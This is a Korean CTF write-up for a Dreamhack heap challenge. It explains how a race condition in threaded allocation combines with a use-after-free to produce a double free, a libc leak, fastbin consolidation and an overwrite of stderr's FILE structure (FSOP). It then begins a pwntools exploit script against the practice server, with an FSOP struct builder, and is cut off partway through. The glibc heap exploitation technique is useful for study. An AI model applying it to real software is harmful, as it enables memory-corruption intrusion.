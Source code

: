 ```C
}
```

`_malloc`에서는 메모리 할당이 이루어집니다. 이 때 메모리 할당을 thread를 켜서 합니다. ismalloc을 먼저 1로 바꾸고 key를 생성하는데, key 생성이 오래 걸립니다. 삼중 for문으로 10억 번의 xor 과정을 거칩니다. 이는 4~6초가 걸리는 작업입니다. ismalloc은 1인 상태에서, key가 생성되는 동안 head에 있는 메모리 할당 청크 주소는 바뀌지 않기 때문에 `race condition`이 발생합니다.

```C
void init()
{
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    mallopt(M_ARENA_MAX, 1);
}
```

원래 thread에서의 할당은 서브 아레나에서 진행됩니다. 그렇지만 이 문제는 M\_ARENA\_MAX를 1로 설정했기 때문에 thread에서의 할당도 main\_arena에서 진행됩니다.

## 익스플로잇 설계

`UAF`가 발생하고, `race condition`으로 ismalloc을 1로 만들 수 있으므로 `DFB`가 발생하고, heap 영역 메모리 leak도 가능합니다. `race condition` -> 메모리 leak을 통해 libc\_base를 구할 수 있습니다. 그런데 thread에서의 할당은 main_areaa에서 진행된다고 하더라도 tcache를 재사용하지 않습니다. 하지만 fast bin은 재사용합니다.
fastbin은 특정 조건이 맞춰지면 스스로 합병합니다. 이는 fastbin consolidate이라 불립니다. fastbin consolidate은 large bin 이상의 `malloc` 또는 `free` 요청이 들어오면 다음 청크가 Top chunk인지를 확인하고, 아니라면 fastbin들을 검사해 필요없다 판단하고 합병시켜버립니다. 사이에 unsorted bin이 있다면 함께 합병합니다.
10개를 할당하고 해제하면 0x20의 크기인 fast bin(idx : 7), 0x100의 크기인 unsorted bin(idx : 7), 0x20의 크기인 fast bin이 합병되어 unsorted bin으로 들어갑니다. 이 상태로 1개 더 할당하면 0x100짜리 청크가 기존에 idx가 7인 fast bin 영역을 가지게 됩니다. 이 영역에 원래 idx 7의 0x100짜리 청크를 참조하던 곳에 \_IO\_2\_1\_stderr\_ 주소를 씁니다. 그리고 idx 7에 대해 `race condition`으로 ismalloc을 1로 만들고 edit을 하면 \_IO\_2\_1\_stderr\_에 값을 쓸 수 있어 FSOP가 가능합니다.

## exploit

```python
from pwn import *
from tqdm import *

context.terminal = ['tmux', 'splitw', '-h']

#p = process("./prob")
p = remote("host3.dreamhack.games", 8911)
l = ELF('./libc.so.6')

def FSOP_struct(flags=0, _IO_read_ptr=0, _IO_read_end=0, _IO_read_base=0,
                _IO_write_base=0, _IO_write_ptr=0, _IO_write_end=0, _IO_buf_base=0, _IO_buf_end=0,
                _IO_save_base=0, _IO_backup_base=0, _IO_save_end=0, _markers=0, _chain=0, _fileno=0,
                _flags2=0, _old_offset=0, _cur_column=0, _vtable_offset=0, _shortbuf=0, lock=0,
                _offset=0, _codecvt=0, _wide_data=0, _freeres_list=0, _freeres_buf=0,
                __pad5=0, _mode=0, _unused2=b"", vtable=0, more_append=b""):

    FSOP = p64(flags) + p64(_IO_read_ptr) + p64(_IO_read_end) + p64(_IO_read_base)
    FSOP += p64(_IO_write_base) + p64(_IO_write_ptr) + p64(_IO_write_end)
    FSOP += p64(_IO_buf_base) + p64(_IO_buf_end) + p64(_IO_save_base) + p64(_IO_backup_base) + p64(_IO_save_end)
    FSOP += p64(_markers) + p64(_chain) + p32(_fileno) + p32(_flags2)
    FSOP += p64(_old_offset) + p16(_cur_column) + p8(_vtable_offset) + p8(_shortbuf) + p32(0x0)
    FSOP += p64(lock) + p64(_offset) + p64(_codecvt) + p64(_wide_data) + p64(_freeres_list) + p64(_freeres_buf)
    FSOP += p64(__pad5) + p32(_mode)
    if _unused2 == b"":
        FSOP += b"\x00" * 0x14
```